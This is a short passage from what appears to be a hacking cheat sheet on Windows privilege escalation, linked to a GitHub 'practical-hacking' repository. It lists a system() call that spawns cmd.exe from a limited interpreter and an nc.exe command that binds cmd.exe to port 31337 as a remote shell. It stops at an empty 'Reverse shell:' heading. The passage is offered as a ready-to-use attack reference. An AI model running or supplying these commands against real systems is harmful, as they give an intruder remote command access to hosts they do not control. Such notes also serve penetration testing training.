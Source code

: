 ![https://github.com/chryzsh/practical-hacking/blob/master/part-4-privilege-escalation.md](../../.gitbook/assets/image-32.png)

Getting a shell in limited interpreters:

```text
system("start cmd.exe /k $cmd")
```

Bind cmd to a port:

```text
nc.exe -Lp 31337 -vv -e cmd.exe
```

Reverse shell:
